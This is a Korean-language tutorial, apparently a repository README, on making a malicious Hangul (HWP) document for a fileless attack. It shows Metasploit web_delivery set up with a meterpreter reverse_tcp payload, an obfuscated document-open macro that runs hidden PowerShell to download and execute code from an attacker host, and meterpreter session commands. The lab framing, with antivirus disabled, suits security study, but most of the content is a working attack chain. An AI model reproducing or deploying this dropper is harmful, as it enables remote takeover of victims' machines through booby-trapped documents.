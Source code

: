 # 메타스플로잇(Metasploit)를 사용해 악성한글문서(Hwp)만들어 파일리스(Fileless) 공격하기

- 공격 서버 :smiling_imp: : 칼리 리눅스(Kali Linux amd64)
- 공격 대상 :skull: : 윈도우 서버 2016 (Windows Server 2016)

### 1. :smiling_imp: Metasploit으로 페이로드 생성

metasploit 실행

```
msfconsole
```

![1](https://i.ibb.co/ZGT9LCZ/Fileless-msf-hwp-1.png)

```
use exploit/multi/script/web_delivery
set target 2
set LHOST 192.168.0.0
set payload windows/meterpreter/reverse_tcp
exploit -j
```

![2](https://i.ibb.co/92mwLNq/Fileless-msf-hwp-2.png)

### 2. :smiling_imp: 악성 한글 문서 제작

1. 도구 > 보안 설정 > 보안수준 낮음 설정
2. 스크립트 매크로 > 실행 > 코드 편집
3. 항목 > Document / Open

```
function OnDocument_Open()
{
try{
  wsh = new ActiveXObject("W"+ "S"+ "c"+ "ri"+ "p"+ "t"+ ".S" +"he" +"ll");
  var r ="powershell.exe -nop -w hidden -c $D=new-object net.webclient;$D.proxy=[Net.WebRequest]::GetSystemWebProxy();$D.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $D.downloadstring('http://192.168.0.0:8080/ABCDE')";
  wsh.Run(r,0);
 }
  catch(err){}
}
```

### 3. :skull: 악성 한글 문서 실행
- 사전 조건 : 백신 OFF, 한글 보안수준 낮음 설정, Windows Defender OFF
한글 문서를 열어서 스크립트 코드 실행

![3](https://i.ibb.co/LnN2Y78/image.png)

### 4. 세션 연결 성공 후 공격 가능

![4](https://i.ibb.co/JR2k2ry/Fileless-msf-hwp-4.png)

```
sessions
sessions -i num
help

//example
sysinfo
```

![5](https://i.ibb.co/9YxVqmZ/Fileless-msf-hwp-5.png)
